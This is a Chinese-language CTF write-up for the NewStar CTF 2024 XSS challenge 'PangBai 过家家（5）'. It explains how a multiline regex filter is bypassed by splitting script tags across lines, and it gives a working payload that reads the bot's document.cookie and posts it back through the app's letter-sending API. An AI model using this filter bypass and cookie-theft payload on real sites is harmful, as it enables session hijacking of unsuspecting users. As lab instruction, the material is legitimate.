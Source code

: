 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```


# PangBai 过家家（5）

这是一题 XSS 题。XSS 题目的典型就是有一个 Bot，flag 通常就在这个 Bot 的 Cookie 里面。

XSS 的全称是跨站脚本攻击，存在这种攻击方式的原因是，用户访问到的网页内容并不是服务端期望的那样，可能存在恶意的代码。例如，你点击一个网页链接，但是它却执行了攻击者的前端 JavaScript 代码，将你的登录凭据、隐私信息发送给攻击者。在 XSS 题中，Bot 就承担这个受害者用户。

题目有一个发件的路由，还有一个查看信件的路由，以及一个「提醒 PangBai」的按钮，这个按钮实际就是让 Bot 访问查看当前信件的路由。

我们要做的就是找到一处能够展示我们的输入的地方，想办法使内容展示之后，浏览器能够执行我们恶意的 JavaScript 代码。这样，如果让 Bot 去访问这个 URL，恶意代码就会在 Bot 的浏览器执行，我们的恶意代码可以执行获取 Cookie 等操作。

从 bot.ts 可见，FLAG 在 Cookie 中：
```
await page.setCookie({
    name: 'FLAG',
    value: process.env['FLAG'] || 'flag{test_flag}',
    httpOnly: false,
    path: '/',
    domain: 'localhost:3000',
    sameSite: 'Strict'
});
```

我们直接输入 ``<script>alert(1)</script>`` 做测试，访问查看信件的界面，查看源码，发现输入被过滤了。

跟踪附件中的后端源码，page.ts 中的 /box/:id 路由，会渲染我们的输入：

```
router.get('/box/:id', async (ctx, next) => {
    const letter = Memory.get(ctx.params['id'])
    await ctx.render('letter', <TmplProps>{
        page_title: 'PangBai 过家家 (5)',
        sub_title: '查看信件',
        id: ctx.params['id'],
        hint_text: HINT_LETTERS[Math.floor(Math.random() * HINT_LETTERS.length)],
        data: letter ? {
            title: safe_html(letter.title),
            content: safe_html(letter.content)
        } : { title: TITLE_EMPTY, content: CONTENT_EMPTY },
        error: letter ? null : '找不到该信件'
    })
})
```

但是输入的内容都经过了 ``safe_html`` 过滤

```
function safe_html(str: string) {
    return str
        .replace(/<.*>/igm, '')
        .replace(/<\.*>/igm, '')
        .replace(/<.*>.*<\/.*>/igm, '')
}
```

可见这只是一个正则替换，正则中各个标志的作用：

- i 标志：忽略大小写
- g 标志：全局匹配，找到所有符合条件的内容
- m 标志：多行匹配，每次匹配时按行进行匹配，而不是对整个字符串进行匹配

由于 m 的存在，匹配开始为行首，匹配结束为行尾，因此我们只需要把 < 和 > 放在不同行即可，例如：

```
<script
>alert(1)</script
>
```

此时我们就能执行恶意代码了。直接使用 ``document.cookie`` 即可获取到 Bot 的 Cookie。
拿到 Cookie 之后，怎么回显呢？如果题目靶机是出网的，可以发送到自己的服务器上面；但是题目靶机并不出网，这时可以写一个 JavaScript 代码，模拟用户操作，将 Cookie 作为一个信件的内容提交（让 Bot 写信），这样我们就能查看到了。例如：

```
<script
>
fetch('/api/send', {
    method: 'POST',
    headers: {'Content-Type': 'application/json'},
    body: JSON.stringify({'title': "Cookie", 'content': document.cookie})
})
</script
>
```

:::warning 注意

``fetch`` 中的请求路径可以是相对路径、绝对路径等，因此上面忽略了 Origin，如果显示指定，必须和当前的 Origin 一样，否则存在跨域问题。从 bot.ts 中可以看到 Bot 访问的是 ``http://localhost:3000``，因此使用 ``http://127.0.0.1:3000`` 是不行的。

把 Payload 提交之后，如果手动查看信件并点击「提醒 PangBai」，会触发两次 Payload，一次是你自己查看信件时触发的，一次是 Bot 触发的。

:::
提交并「提醒 PangBai」之后，稍等一会，查看信箱，就可以看到内容了。

![](/assets/images/wp/2024/week5/PangBaiguojiajia(5)_1.png)

![](/assets/images/wp/2024/week5/PangBaiguojiajia(5)_2.png)